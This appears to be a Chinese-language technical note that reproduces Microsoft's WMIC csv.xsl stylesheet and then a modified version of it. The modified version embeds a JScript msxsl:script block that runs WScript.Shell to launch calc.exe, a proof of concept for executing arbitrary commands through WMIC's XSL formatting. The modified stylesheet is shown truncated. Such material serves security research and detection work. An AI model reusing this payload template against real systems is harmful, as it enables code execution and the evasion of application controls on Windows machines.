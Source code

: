```

<xsl:template match="PROPERTY.REFERENCE" xml:space="preserve"><xsl:apply-templates select="VALUE.REFERENCE"></xsl:apply-templates></xsl:template>

<xsl:template match="PROPERTY"><xsl:apply-templates select="VALUE"/></xsl:template>
<xsl:template match="PROPERTY.ARRAY"><xsl:for-each select="VALUE.ARRAY"><xsl:apply-templates select="."/></xsl:for-each></xsl:template>

<xsl:template match="VALUE.REFERENCE">"<xsl:apply-templates select="INSTANCEPATH/NAMESPACEPATH"/><xsl:apply-templates select="INSTANCEPATH/INSTANCENAME|INSTANCENAME"/>"</xsl:template>

<xsl:template match="NAMESPACEPATH">\\<xsl:value-of select="HOST/text()"/><xsl:for-each select="LOCALNAMESPACEPATH/NAMESPACE">\<xsl:value-of select="@NAME"/></xsl:for-each>:</xsl:template>

<xsl:template match="INSTANCENAME"><xsl:value-of select="@CLASSNAME"/><xsl:for-each select="KEYBINDING"><xsl:if test="position()=1">.</xsl:if><xsl:value-of select="@NAME"/>="<xsl:value-of select="KEYVALUE/text()"/>"<xsl:if test="position()!=last()"></xsl:if><xsl:if test="not($norefcomma=&quot;true&quot;)">,</xsl:if><xsl:if test="$norefcomma=&quot;true&quot;"><xsl:text> </xsl:text></xsl:if></xsl:for-each></xsl:template>


</xsl:stylesheet>
```


尝试在代码中添加payload，修改后的内容如下：

```
<?xml version="1.0"?>
<!-- Copyright (c) Microsoft Corporation.  All rights reserved. -->
<xsl:stylesheet version="1.0"
      xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
      xmlns:msxsl="urn:schemas-microsoft-com:xslt"
      xmlns:user="urn:my-scripts">
<xsl:output encoding="utf-16" omit-xml-declaration="yes"/>
<xsl:param name="norefcomma"/>

<msxsl:script language="JScript" implements-prefix="user">
   function myFunction() {
	var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
      	return "";	  
   }
</msxsl:script>

<xsl:template match="/">

<xsl:value-of select="user:myFunction()"/>

Node,<xsl:for-each select="COMMAND/RESULTS[1]/CIM/INSTANCE[1]//PROPERTY|COMMAND/RESULTS[1]/CIM/INSTANCE[1]//PROPERTY.ARRAY|COMMAND/RESULTS[1]/CIM/INSTANCE[1]//PROPERTY.REFERENCE"><xsl:value-of select="@NAME"/><xsl:if test="position()!=last()">,</xsl:if></xsl:for-each><xsl:apply-templates select="COMMAND/RESULTS"/></xsl:template> 


<xsl:template match="RESULTS" xml:space="preserve"><xsl:apply-templates select="CIM/INSTANCE"/></xsl:template> 
<xsl:template match="VALUE.ARRAY" xml:space="preserve">{<xsl:for-each select="VALUE"><xsl:apply-templates select="."/><xsl:if test="position()!=last()">;</xsl:if></xsl:for-each>}</xsl:template>
<xsl:template match="VALUE" xml:space="preserve"><xsl:value-of select="."/></xsl:template>
<xsl:template match="INSTANCE" xml:space="preserve">
<xsl:value-of select="../../@NODE"/>,<xsl:for-each select="PROPERTY|PROPERTY.ARRAY|PROPERTY.REFERENCE"><xsl:apply-templates select="."/><xsl:if test="position()!=last()">,</xsl:if></xsl:for-each></xsl:template> 

```